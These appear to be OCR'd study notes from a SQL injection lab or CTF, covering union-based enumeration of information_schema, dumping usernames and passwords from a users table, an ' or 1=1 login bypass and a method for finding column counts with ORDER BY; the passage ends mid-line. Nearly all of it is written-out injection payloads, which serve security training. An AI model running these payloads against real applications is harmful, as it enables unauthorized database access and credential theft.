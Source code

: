\- Read selected columns, appropriate column type

Test' or 1=1 order by 1; \-- -

\- Craft union select to discover column and table names

\' union select table_name, column_name, null from
information_schema.columns \-- -\
\
Get rows by chunk\
\' union select table_name, column_name, null from
information_schema.columns limit 100 offset 0; \-- -

\' union select table_name, column_name, null from
information_schema.columns limit 100 offset 100; \-- -

\' union select table_name, column_name, null from
information_schema.columns limit 100 offset 200; \-- -

\' union select table_name, column_name, null from
information_schema.columns limit 100 offset 300; \-- -\
![](media/image4.png){width="6.5in" height="4.069444444444445in"}

\- Hijack users table

\' union select username, password, null from users \-- -

\- Login with \"root\", \"secure123\"

\- SQLi Basics (Simple SQLi)

\- Login with

username: \' or 1=1 \-- -

password: \<left empty\>

**Bounce1, 2**

Below is like a \"general step by step\" to approach SQLi union-based
challenge:

1.  Try Find No. of columns (because for SQL Union to work, the same
    number of column have to match the original SQL query statement.
    Read: <https://www.w3schools.com/sql/sql_union.asp>)

2.  **Search textbox\-\-\-\--SQLi injection point\
    Smith' or 1=1; \-- -not successful\
    123 or 1=1; \-- -successful\
    →Numeric SQLi**

3.  **Try Find matching datatype (because for SQL Union to work, same
    data type must match, see above link)**

> **??Number of columns in the original select statement\
> \
> 1 or 1=1 order by 1; \-- -\
> 1 or 1=1 order by 2 ;\-- -error\
> \-\-\-\-\-\--\>one column**
>
> **1 union SELECT Table**
